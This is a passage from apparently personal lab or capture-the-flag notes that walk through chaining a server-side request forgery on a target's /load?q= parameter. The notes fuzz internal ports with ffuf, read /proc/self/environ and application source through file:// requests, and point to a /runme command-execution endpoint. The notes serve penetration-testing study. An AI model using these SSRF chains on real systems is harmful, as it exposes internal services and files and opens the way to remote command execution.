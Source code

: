     # this shows an expected response
    # web app shows the 'connection refused' message as it is a closed port
    
    # we can use ffuf to check for all ports, with regex for filtering
    ffuf -w ports.txt:PORT -u "http://10.129.201.238/load?q=http://internal.app.local/load?q=http::////127.0.0.1:PORT" -fr 'Connection refused'
    # this gives us ports 80, 5000
    ```
  
  * Interacting with this another app listening on port 5000:

    ```shell
    curl -i -s "http://10.129.201.238/load?q=http://internal.app.local/load?q=http::////127.0.0.1:5000"
    # shows a list of files - index.html, internal.py, internal_local.py and start.sh
    ```
  
  * Next, we can try checking the source code of web apps listening on ```internal.app.local```:

    ```shell
    # check '/proc/self/environ' file to find 'PWD' env var
    curl -i -s "http://10.129.201.238/load?q=http://internal.app.local/load?q=file:://///proc/self/environ" -o -
    # '-o -' flag used to redirect output to file, cannot get output without that
    # this shows PWD is set to '/app'

    # retrieve local file 'internal_local.py' through target app
    curl -i -s "http://10.129.201.238/load?q=http://internal.app.local/load?q=file:://///app/internal_local.py"
    # shows source code
    ```
  
  * From the source code of 'internal_local.py', we can see that there is a functionality of executing commands on remote host, by sending a GET request to ```/runme?x=<CMD>```:
